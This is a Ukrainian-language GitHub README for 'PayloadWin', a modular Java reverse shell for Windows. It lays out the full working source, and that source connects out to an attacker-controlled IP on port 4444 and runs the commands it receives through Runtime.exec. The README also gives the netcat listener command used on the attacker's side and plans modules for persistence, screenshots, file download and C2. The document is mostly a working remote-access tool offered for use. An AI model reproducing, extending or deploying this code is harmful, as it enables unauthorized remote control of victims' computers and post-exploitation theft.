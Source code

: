 # 🛠 PayloadWin — Java Reverse Shell (модульна архітектура)

## 🎯 Мета проєкту

Створити масштабований reverse shell для Windows на Java з модульною архітектурою, що дозволяє:
- запускати системні команди (`exec`)
- додавати нові модулі (post-exploitation: download, screenshot, persist)
- структурувати код за принципами Command Pattern
- підготувати фундамент для майбутніх C2-інструментів

## 📁 Структура проєкту

```
PayloadWin/
├── reverse_shell/
│   ├── Main.java                 # Точка входу
│   ├── Dispatcher.java           # Маршрутизація команд
│   ├── CommandHandler.java       # Інтерфейс модулів
│   └── modules/
│       └── ShellCommand.java     # Модуль виконання команд
├── .gitignore
└── README.md
```

## ⚙️ Кроки створення

### 🔹 Крок 1. Ініціалізація

```bash
mkdir PayloadWin && cd PayloadWin
git init
gh repo create PayloadWin --public --source=. --remote=origin --push
```

### 🔹 Крок 2. Створення інтерфейсу `CommandHandler`

`reverse_shell/CommandHandler.java`

```java
package reverse_shell;

import java.net.Socket;

public interface CommandHandler {
    void handle(String[] args, Socket socket) throws Exception;
}
```

### 🔹 Крок 3. Створення Dispatcher

`reverse_shell/Dispatcher.java`

```java
package reverse_shell;

import java.net.Socket;
import java.util.HashMap;
import java.util.Map;
import reverse_shell.modules.ShellCommand;

public class Dispatcher {
    private Map<String, CommandHandler> commands = new HashMap<>();

    public Dispatcher() {
        commands.put("exec", new ShellCommand());
    }

    public void dispatch(String input, Socket socket) throws Exception {
        String[] parts = input.trim().split(" ", 2);
        String cmd = parts[0];
        String[] args = (parts.length > 1) ? parts[1].split(" ") : new String[0];

        CommandHandler handler = commands.get(cmd);
        if (handler != null) {
            handler.handle(args, socket);
        } else {
            socket.getOutputStream().write(("Unknown command: " + cmd + "\n").getBytes());
        }
    }
}
```

### 🔹 Крок 4. Модуль виконання команд

`reverse_shell/modules/ShellCommand.java`

```java
package reverse_shell.modules;

import reverse_shell.CommandHandler;
import java.io.*;
import java.net.Socket;

public class ShellCommand implements CommandHandler {
    @Override
    public void handle(String[] args, Socket socket) throws Exception {
        PrintWriter out = new PrintWriter(socket.getOutputStream(), true);
        String command = String.join(" ", args);

        Process process = Runtime.getRuntime().exec(command);
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));

        String line;
        while ((line = reader.readLine()) != null) out.println(line);
        while ((line = errorReader.readLine()) != null) out.println(line);

        process.waitFor();
    }
}
```

### 🔹 Крок 5. Основний клас

`reverse_shell/Main.java`

```java
package reverse_shell;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.net.Socket;

public class Main {
    public static void main(String[] args) {
        String host = "192.168.1.184"; // ← Вказати свою IP
        int port = 4444;

        try {
            Socket socket = new Socket(host, port);
            BufferedReader reader = new BufferedReader(new InputStreamReader(socket.getInputStream()));
            Dispatcher dispatcher = new Dispatcher();

            String input;
            while ((input = reader.readLine()) != null) {
                dispatcher.dispatch(input, socket);
            }

            socket.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

## 🧪 Тестування

### 1. Слухати з боку атакуючого:

```bash
nc -lvnp 4444
```

### 2. Компілювати:

```bash
javac reverse_shell/*.java reverse_shell/modules/*.java
```

### 3. Запустити:

```bash
java reverse_shell.Main
```

### 4. Надіслати в nc:

```
exec whoami
```

## ✅ Далі

- [ ] Додати модуль `download`
- [ ] Додати `screenshot`
- [ ] Додати `persist`
- [ ] Серіалізувати комунікацію (JSON/протокол)
- [ ] C2-архітектура / reconnect